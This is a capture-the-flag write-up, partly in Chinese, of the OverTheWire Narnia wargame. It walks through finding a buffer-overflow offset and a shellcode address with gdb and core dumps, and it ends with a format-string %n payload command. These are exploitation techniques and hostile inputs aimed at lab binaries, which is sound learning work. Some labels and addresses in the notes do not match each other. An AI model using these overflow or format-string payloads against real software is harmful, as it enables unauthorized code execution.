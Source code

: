 # 1. narnia - level 2

##  - source code

![image-20210816210353564](img/image-20210816210353564.png)

string buffer overflow

##  - assemble code & 2 breakpoints(before & after strcpy)

![image-20210816211553153](img/image-20210816211553153.png)

strcpy前后的两个断点，可以查看strcpy前后，buffer的变化情况，从而获取程序return address。

核心思路：通过注入shellcode、并将程序的下一条程序修改为注入“shellcode”的地址，从而实现hack

##  - explor the memory

=======================================================

`/narnia/narnia2 $(python -c 'print "A" * 132 ') `

`Program received signal SIGSEGV, Segmentation fault. `

`0xf7e2a202 in __libc_start_main () from /lib32/libc.so.6 `

=======================================================

`Starting program: /narnia/narnia2 $(python -c 'print "A" * 136 ') `

`Program received signal SIGSEGV, Segmentation fault.`

`0x41414141 in ?? ()`

=======================================================

结论：136 bytes 将溢出buffer，且最后4个byte将覆盖返回地址，即下一步执行程序

##  - locate buffer address

![image-20210816214855764](img/image-20210816214855764.png)

### 1. Address in GDB

因为FFFFD568地址保存了shellcode，所以该地址需要体现在注入的136个字节中的最后4个

但由于上述地址是在gdb中执行，内存地址会发生变化，所以需要通过在tmp目录下，分析coredump，得到实际运行时的地址

### 2. Address in actual env.

![image-20210816212856449](img/image-20210816212856449.png)

![image-20210816220842077](img/image-20210816220842077.png)

copy 可执行文件到tmp，确保文件名长度一致

`gdb narnia01234567 core`

查看 fffdd568 附近的内容，可以发现新的地址为  ffffd578

![image-20210816221044676](img/image-20210816221044676.png)

##  - Go Go Go

![image-20210816221326719](img/image-20210816221326719.png)

# 2. narnia level 3

![image-20210822210025905](/Users/wanghui/workspace/git_repos/hack_my_life/over_the_wire/narnia/img/image-20210822210025905.png)




/narnia/narnia5 $(echo -e "\x90\xd6\xff\xff")%496x%1\$n
